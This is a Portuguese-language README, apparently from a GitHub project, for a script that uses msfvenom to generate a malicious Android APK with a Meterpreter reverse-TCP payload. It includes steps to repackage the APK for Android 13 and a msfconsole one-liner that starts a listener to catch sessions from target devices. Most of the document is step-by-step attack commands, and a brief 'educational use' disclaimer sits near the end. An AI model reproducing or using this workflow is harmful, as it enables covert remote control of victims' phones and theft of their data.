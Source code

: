 <h1>Automatização de Geração de APK com Payload Meterpreter e Exploração com Metasploit</h1>
<p>Este projeto automatiza o processo de criação de um APK malicioso com o payload Meterpreter para Android, utilizando o <code>msfvenom</code>, e fornece instruções para modificar o <code>AndroidManifest.xml</code> para compatibilidade com Android 13. O script também inicia automaticamente o listener no Metasploit para capturar a conexão do dispositivo alvo.
    (    OU SEJA ELE PEGA SEU IP COM IPCONFIG BOTA NO LHOST GERAR O PAYLOAD E DEPOIS EXECUTAR O METERPRETE AUTOMATICO )
</p>

<h2>Requisitos</h2>
<ul>
<li>Python 3 instalado.</li>
<li><code>msfvenom</code>: Ferramenta do Metasploit para gerar payloads.</li>
<li>Metasploit Framework: Ferramenta para exploração e captura de sessões de meterpreter.</li>
<li><code>ApkTool</code>: Ferramenta para descompilar, modificar e recompilar APKs.</li>
<li><code>ZipAlign</code>: Ferramenta para otimizar APKs.</li>
<li><code>ApkSigner</code>: Ferramenta para assinar APKs.</li>
</ul>

<h2>Instalação dos requisitos</h2>
<p>Instale o Metasploit Framework:</p>
<pre><code>curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/msfupdate | sudo bash</code></pre>

<p>Instale o ApkTool:</p>
<ul>
<li>Baixe o ApkTool para atualizar para o Android 13 <a href="https://github.com/iBotPeaches/Apktool" target="_blank">aqui</a>.</li>
<li>Siga as instruções para a instalação no seu sistema.</li>
</ul>

<p>Instale o ZipAlign:</p>
<ul>
<li>O ZipAlign geralmente faz parte do Android SDK.</li>
<li>Você pode baixar o Android SDK <a href="https://developer.android.com/studio" target="_blank">aqui</a>.</li>
</ul>

<p><code>msfvenom</code> já faz parte do Metasploit Framework, então você não precisa instalar separadamente.</p>

<h2>Como usar o script</h2>
<h3>Passo 1: Clone o repositório</h3>
<p>Clone este repositório para sua máquina local:</p>
<pre><code>git clone https://github.com/seu-usuario/automacao-apk-metasploit.git
cd automacao-apk-metasploit</code></pre>

<h3>Passo 2: Execute o script</h3>
<p>Antes de executar o script, certifique-se de que todas as ferramentas mencionadas acima estão instaladas e funcionando corretamente.</p>
<p>Execute o script Python:</p>
<pre><code>python3 generate_apk.py</code></pre>

<h3>Passo 3: O que o script faz</h3>
<ul>
<li><strong>Obtém o IP local</strong>: O script utiliza o comando <code>ifconfig</code> para obter o IP local da máquina.</li>
<li><strong>Gera o APK</strong>: Usando o <code>msfvenom</code>, o script gera um APK malicioso com o payload Meterpreter para o IP local (LHOST) e porta <code>4444</code> (LPORT).</li>
<li><strong>Instruções para Modificar o Manifesto</strong>: O script fornecerá as instruções para você atualizar o arquivo <code>AndroidManifest.xml</code> no APK para torná-lo compatível com Android 13.</li>
<li><strong>Iniciar o Listener no Metasploit</strong>: O script executará automaticamente o Metasploit para começar a escutar conexões de dispositivos com o payload.</li>
</ul>

<h3>Passo 4: Atualizar o AndroidManifest.xml (para Android 13)</h3>
<p>Após gerar o APK, você precisa modificar o <code>AndroidManifest.xml</code> para Android 13. Para isso, execute:</p>
    <pre><code>apktool d Brunao.apk</code></pre>

<p>Abra o arquivo <code>AndroidManifest.xml</code> dentro da pasta descompilada e adicione as permissões necessárias para Android 13 ou mais recente com o chat gpt, causo não saiba.</p>

<p>Recompile o APK:</p>
<pre><code>apktool b Brunao</code></pre>


<p>Alinhe o APK com o comando:</p>
<pre><code>zipalign -v 4 Brunao.apk Brunao.apk</code></pre>

<p>Depois, o APK estará pronto para ser assinado e instalado.</p>

<h3>Passo 5: Executando o Listener no Metasploit</h3>
<p>Para iniciar o listener no Metasploit e aguardar a conexão do dispositivo alvo, execute:</p>
<pre><code>msfconsole -x 'use exploit/multi/handler; set PAYLOAD android/meterpreter/reverse_tcp; set LHOST [SEU_IP]; set LPORT 4444; exploit'</code></pre>

<p>Este comando configurará o Metasploit para escutar as conexões de dispositivos com o payload.</p>

<h2>Contribuindo</h2>
<p>Sinta-se à vontade para fazer melhorias no código e enviar pull requests.</p>

<h2>Aviso Legal</h2>
<p>Este projeto é somente para fins educacionais. Não use essas técnicas em sistemas sem permissão. Realizar ataques sem autorização é ilegal e pode levar a sérias consequências legais.</p>

<div class="footer">
<p>&copy; 2025 Seu Nome. Todos os direitos reservados.</p>
</div>


Exemplo de Execução
Obter o IP da máquina: O script encontra o IP privado e o exibe.

Gerar o APK: O script gera o APK malicioso com o msfvenom.

Atualizar o AndroidManifest.xml: O script fornece as instruções para editar o AndroidManifest.xml para Android 13.

Iniciar o Listener: O script inicia o listener do Metasploit e exibe:

Copiar código
Iniciando o Metasploit... Aguarde.
Sessão meterpreter iniciada.
Exibir Comandos: O script exibe os comandos disponíveis, como "executar" e "help".

<h1>Leia a msg que tá no terminal acima da execução do payload sobre a atualização para o android 13</h1>
